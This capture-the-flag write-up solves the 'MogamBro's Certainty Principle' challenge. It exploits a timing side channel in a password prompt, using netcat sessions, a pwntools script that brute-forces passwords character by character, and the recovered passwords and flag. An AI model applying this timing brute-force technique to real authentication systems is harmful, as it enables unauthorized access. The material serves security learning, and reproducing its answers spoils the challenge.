 # MogamBro's Certainty Principle (PWN)

`Description`

MogamBro's Certainty Principle states that the more accurate you are the more delay you'll face. Δt • Δp ≥ frustration / ram_space; where p is precission and t is time.

```
$ nc 20.244.33.146 4445
Enter password: A
Incorrect password
Time taken:  8.574516805406616e-05
```

`Solution`

Base from the description of the challenge, every input password will give us the time taken. So I tried a lot of inputs like single characters.

```
$ nc 20.244.33.146 4445
Enter password: s
Incorrect password
Time taken:  0.10007056659247279

$ nc 20.244.33.146 4445
Enter password: s
Incorrect password
Time taken:  0.10003479356750938
```

I noticed that if I input 's' the time taken is constant < 1 so this guessing game. So I wrote a script to brute force the password.

```python
from pwn import *

charset = 'abcdefghijklmnopqrstuvwxyz'

stored_nums = '7' # decimal part of the time taken
stored_nums2 = '7' # decimal part of the time taken

password1 = 'sloppytoppywithatwist'
password2 = 'gingerdangerhermoinegranger'
password3 = 'hickerydickerydockskibididobdobpop'
password4 = 'snickersnortsupersecureshortshakingsafarisadistic'
password5 = 'boompopwhizzleskizzleraptrapmeowbarkhowlbuzzdrumburpfartpoo'

context.log_level = 'info'

# any chars execpt 's' gives Time Taken > 0.1000....
# so start with 0.1 get only the decimal part of the time taken

while True:
    for c in charset:
        io = remote('20.244.33.146', 4445)
        io.sendlineafter(':', password1) # level 1 passed
        io.sendlineafter(':', password2) # level 2 passed
        io.sendlineafter(':', password3) # level 3 passed
        io.sendlineafter(':', password4)  # level 4 passed
        io.sendlineafter(':', password5 + c) # level 5
        io.recvline()
        res = io.recvline().decode().strip().split(' ')[-1]
        info(f'c: {c}, res: {res}, password: {password1}, password2: {password2}, password3: {password3}, password4: {password4}, password5: {password5 + c}')
        

        res2 = res.split('.')[1]

        # since the decimal places values is not constant that's why I used the first 2 decimal places
        if res2[1] != stored_nums[-1] or res2[2] != stored_nums2[-1]:
            stored_nums += res2[1]
            stored_nums2 += res2[2]
            password5 += c
            print(password5)
            break
        io.close()
```
My solution is not quite good since every right precision (character) the time taken will getting slower and slower (takes more hours to bruteforce when you reach level 4 - 5). You can enhance this by running multithreading.

After found the password for level 5, we got the flag.

```
└─$ nc 20.244.33.146 4445
Enter password: sloppytoppywithatwist
Congratulations! You have unlocked the door to level 2!
Enter password: gingerdangerhermoinegranger
Congratulations! You have unlocked the door to level 3!
Enter password: hickerydickerydockskibididobdobpop
Congratulations! You have unlocked the door to level 4!
Enter password: snickersnortsupersecureshortshakingsafarisadistic
Congratulations! You have unlocked the door to level 5!
Enter password: boompopwhizzleskizzleraptrapmeowbarkhowlbuzzdrumburpfartpoop
Congratulations! You have unlocked all the doors. THe flag is BITSCTF{c0n6r47ul4710n5_0n_7h3_5ucc355ful_3n7ry}
```